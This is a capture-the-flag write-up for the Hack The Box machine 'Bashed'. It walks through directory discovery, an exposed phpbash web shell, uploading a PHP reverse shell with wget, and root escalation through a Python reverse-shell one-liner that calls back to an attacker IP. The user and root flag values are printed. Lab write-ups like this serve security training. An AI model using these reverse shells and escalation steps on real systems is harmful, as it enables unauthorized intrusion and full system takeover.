




# Bashed
### Nmap scan
```bash
nmap -sC -sV -oA <IP>
```


# Directory Busting
```bash
feroxbuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.129.80.188
```
# Found:
- /upload
- /php
- /dev
- /images

### Exploiting with phpbash
http://10.10.10.68/dev/phpbash.php is accessible which means we have a shell. 😲

The **/dev** has two files and when run the phpbash.php we get a shell where we can run commands from the webpage. 


The /upload directory allows uploads.
Hosting the php-reverse-shell.php file on the attacker machine via python.

```bash
locate php-reverse-shell.php
python3 -m http.server
```
Make sure the script $ip and $port are change to kali/attacker machine and listening port.

Back to the webpage to get the file via `wget`

```bash
wget http://<kali IP>:8000/php-reverse-shell.php
```

Start the listener on the Kali
```bash
nc -lvnp 88888
```
Run the scrip or reload the page **http://<bashed-ip>/dev/php-reverse-shell.php**

Get the shell.

### User Flag
```bash
$ cd home
$ ls
arrexel
scriptmanager
$ cd arrexel
$ ls
user.txt
$ cat user.txt
1b6901a1040b46fa1eee0c9b450ac920
$ 
```

### PrivEsc

Presistant the shell.
```bash
python3 -c 'import pty; pty.spawn("bin/bash")'
# Control + Z to background the shell.
stty raw -echo
fg ## ENTER few times
sudo -u scriptmanager bash
```
### Output
```bash
scriptmanager@bashed:/scripts$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
```

Now the shell is presistent and navigating to the script directory is possible.

### Two files: 
1. test.py
2. test.txt
These files are writable.
These files have a root ownership. date are craeted and update as the box is being pawned.



### Reverse Shell .py
Search for erverse shell python and try few by adding to the **test.py** file to get the reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.8",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```
after saving the revershell to the test.py and start the listener on port 1234, type `date` on the shell and give it few seconds before get the callback as a root shell.


### Root flag
```bash
# cd root
# ls
root.txt
# cat root.txt
6551a1b39055cb184e69ab41c7951c4f
```